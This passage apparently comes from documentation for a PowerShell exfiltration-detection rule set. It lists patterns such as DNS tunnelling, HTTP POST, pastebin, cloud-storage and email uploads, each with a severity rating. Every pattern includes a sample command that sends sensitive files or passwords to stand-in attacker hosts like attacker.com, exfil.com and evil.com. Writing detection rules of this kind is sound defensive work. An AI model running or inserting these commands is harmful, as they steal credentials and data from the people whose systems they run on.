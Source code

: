 **Example**:
```powershell
foreach ($chunk in $data) {
    Resolve-DnsName "$chunk.attacker.com"
}
```

**Why it's dangerous**: Exfiltrates data through DNS queries, bypassing many security controls.

#### 2. HTTP POST with Data (High)
**Pattern**: `Invoke-WebRequest`/`Invoke-RestMethod` with `-Method POST` and `-Body`/`-InFile`

**Example**:
```powershell
$data = Get-Content "C:\Sensitive\passwords.txt"
Invoke-WebRequest -Uri "http://exfil.com/upload" -Method POST -Body $data
```

**Why it's dangerous**: Sends sensitive data to external servers.

#### 3. Pastebin/Code Sharing Sites (Critical)
**Pattern**: URLs for pastebin.com, gist.github.com, paste.ee, hastebin.com, etc.

**Example**:
```powershell
Invoke-RestMethod -Uri "https://pastebin.com/api/api_post.php" -Method POST -Body @{api_paste_code=$secrets}
```

**Why it's dangerous**: Quick, anonymous data sharing commonly used by attackers.

#### 4. Cloud Storage Uploads (Critical)
**Pattern**: URLs for dropbox.com, drive.google.com, onedrive.live.com, AWS S3, Azure Blob Storage

**Example**:
```powershell
Invoke-WebRequest -Uri "https://mybucket.s3.amazonaws.com/exfil.zip" -Method PUT -InFile "C:\Data\sensitive.zip"
```

**Why it's dangerous**: Large storage capacity, encrypted transfers, hard to distinguish from legitimate use.

#### 5. Email with Attachments (High)
**Pattern**: `Send-MailMessage` with `-Attachments` parameter

**Example**:
```powershell
Send-MailMessage -To "attacker@evil.com" -Attachments "C:\Sensitive\data.xlsx" -SmtpServer smtp.company.com
```

**Why it's dangerous**: Direct exfiltration to attacker-controlled email.

#### 6. Data Compression Before Upload (Critical)
**Pattern**: `Compress-Archive` followed by web requests

**Example**:
```powershell
Compress-Archive -Path "C:\Sensitive\*" -DestinationPath "C:\Temp\exfil.zip"
Invoke-WebRequest -Uri "http://attacker.com/upload" -Method POST -InFile "C:\Temp\exfil.zip"
```
